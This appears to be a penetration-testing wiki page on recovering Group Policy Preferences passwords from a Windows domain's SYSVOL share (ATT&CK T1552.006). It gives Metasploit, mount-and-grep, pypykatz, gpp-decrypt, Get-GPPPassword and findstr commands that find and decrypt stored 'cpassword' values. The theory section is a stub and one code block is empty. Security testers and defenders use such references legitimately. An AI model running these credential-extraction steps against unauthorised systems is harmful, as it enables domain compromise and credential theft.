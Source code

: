 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# 🛠️ Group Policies Preferences

## Theory

GPP \(Group Policy Preferences\) 

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
Tip : since the following operations require mounting of the SYSVOL share, it can't be done through a docker environment

msfconsole or manually finding them by mounting and grep, or accessing and manually open everything

```bash
use auxiliary/scanner/smb/smb_enum_gpp
msf auxiliary(smb_enum_gpp) > set RHOSTS $DOMAIN_CONTROLLER
msf auxiliary(smb_enum_gpp) > set SMBDomain $DOMAIN
msf auxiliary(smb_enum_gpp) > set SMBUser $DOMAIN_USER
msf auxiliary(smb_enum_gpp) > set SMBPass $DOMAIN_PASSWORD
msf auxiliary(smb_enum_gpp) > run
```

or manually mount and grep

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
must run in a authenticated context, see [impersonation](../impersonation.md)

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a domain controller for groups.xml, scheduledtasks.xml, services.xml and datasources.xml and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

or manually with findstr

```bash
findstr /S /I cpassword \\$DOMAIN_CONTROLLER\sysvol\*.xml
```

or manually with use and open everything

```bash

```
{% endtab %}
{% endtabs %}

